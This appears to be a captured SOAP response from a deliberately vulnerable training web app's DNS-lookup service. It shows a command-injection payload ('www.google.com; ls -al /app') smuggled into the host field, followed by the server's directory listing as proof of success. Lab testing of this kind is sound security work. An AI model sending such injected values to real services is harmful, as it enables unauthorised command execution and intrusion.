X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Content-Length: 5138
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:lookupDNSResponse xmlns:ns1="urn:commandinjwsdl"><Answer xsi:type="xsd:xml"><results host="www.google.com; ls -al /app">total 636
drwxrwxrwx 1 root root  4096 Jan 18  2022 .
drwxr-xr-x 1 root root  4096 Nov 29 14:41 ..
drwxrwxrwx 1 root root  4096 Feb 15  2016 .git
-rwxrwxrwx 1 root root 10273 Feb 15  2016 LICENSE
-rwxrwxrwx 1 root root    79 Feb 15  2016 README.md
-rwxrwxrwx 1 root root 13926 Feb 25  2020 add-to-your-blog.php
drwxrwxrwx 2 root root  4096 Feb 25  2020 ajax
-rwxrwxrwx 1 root root  5756 Feb 25  2020 arbitrary-file-inclusion.php
-rwxrwxrwx 1 root root   534 Feb 25  2020 authorization-required.php
-rwxrwxrwx 1 root root  1421 Feb 25  2020 back-button-discussion.php
-rwxrwxrwx 1 root root  9282 Feb 25  2020 browser-info.php
-rwxrwxrwx 1 root root  3540 Feb 25  2020 cache-control.php
-rwxrwxrwx 1 root root  8566 Feb 25  2020 capture-data.php
-rwxrwxrwx 1 root root  6985 Feb 25  2020 captured-data.php
drwxrwxrwx 2 root root  4096 Feb 25  2020 classes

[...]

-rwxrwxrwx 1 root root 10725 Feb 25  2020 user-poll.php
-rwxrwxrwx 1 root root  9560 Feb 25  2020 view-someones-blog.php
-rwxrwxrwx 1 root root  8076 Feb 25  2020 view-user-privilege-level.php
drwxrwxrwx 1 root root  4096 Feb 25  2020 webservices
-rwxrwxrwx 1 root root  7326 Feb 25  2020 xml-validator.php
</results></Answer></ns1:lookupDNSResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

---
---
